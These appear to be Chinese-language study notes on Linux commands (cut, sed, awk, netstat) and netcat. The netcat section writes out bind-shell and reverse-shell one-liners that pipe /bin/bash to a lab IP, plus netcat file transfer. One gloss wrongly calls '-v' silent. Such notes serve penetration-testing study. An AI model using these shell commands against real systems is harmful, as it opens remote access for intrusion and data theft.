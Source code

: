 # 第二章

## 命令

### cut

`grep September myfile|cut -d " " -f 2` 意思就是在文件名为myfile的文件中找出带有"September"的条目，并且对这样的条目，以" "来分割成多分，取其中的第二份

### sed

`sed 's/Blackhat/Defcon/' myfile` 将myfile文件中的Blackhat都替换成Defcon

### awk

* `awk '$1 >5' myfile` 显示myfile中每一行第一个词大于5的行
* `awk '{print $1,$3;}' myfile` 显示myfile中每一行的第一个和第三个单词（应该是默认单词都以空格隔开）

### netstat

netstat -antp

## netcat

### 监听、连接发消息

`nc -lvp 1234`

* -l代表listen
* -v 代表verbose 静音
* -p代表port 指定端口

`nc 192.168.20.9 1234` 这样就连接上了这个端口 然后输入hi就可以发送一个hi给对方

### bind shell

server: nc -lvp 1234 -e /bin/bash client: nc 192.168.20.9 1234

### reverse shell

client: nc -lvp 1234 server: nc 192.168.20.9 1234 -e /bin/bash

### 将文件作为 输出或输入

nc -lvp 1234 &gt; netcatfile nc 192.168.20.9 1234 &lt; mydirectory/file

